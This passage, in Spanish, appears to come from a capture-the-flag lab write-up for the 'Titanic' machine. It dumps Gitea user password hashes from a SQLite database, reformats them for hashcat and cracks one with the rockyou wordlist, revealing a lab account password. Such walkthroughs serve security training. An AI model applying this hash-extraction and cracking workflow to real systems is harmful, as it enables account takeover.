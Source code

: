 ```bash
< Cache-Control: no-cache
< ETag: "1750360037.1558354-2084864-1097404214"
< 
Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider "--output <FILE>" 
Warning: to save to a file.
* client returned ERROR on write of 2303 bytes
* closing connection #0
```

Tendremos algunos hashes para crackear:

```bash
❯ sqlite3 uwu.db 
SQLite version 3.49.2 2025-05-07 10:39:52
Enter ".help" for usage hints.
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

Antes de crackearlos, vamos a tener que parsearlos a algo que hashcat pueda entender:

Primero, tomaremos el salt y el hash, y lo decodificaremos de hexadecimal a base64:

```bash
❯ echo "8bf3e3452b78544f8bee9400d6936d34" | xxd -r -ps | base64 -w 0
i/PjRSt4VE+L7pQA1pNtNA==

❯ echo "e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56" | xxd -r -ps | base64 -w 0
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Ahora tomaremos la parte del algortimo y las iteraciones de PBKDF2 para crear un formato así:

```bash
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Esto es legible por hashcat, y también es una contraseña débil:

```bash
❯ hashcat hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
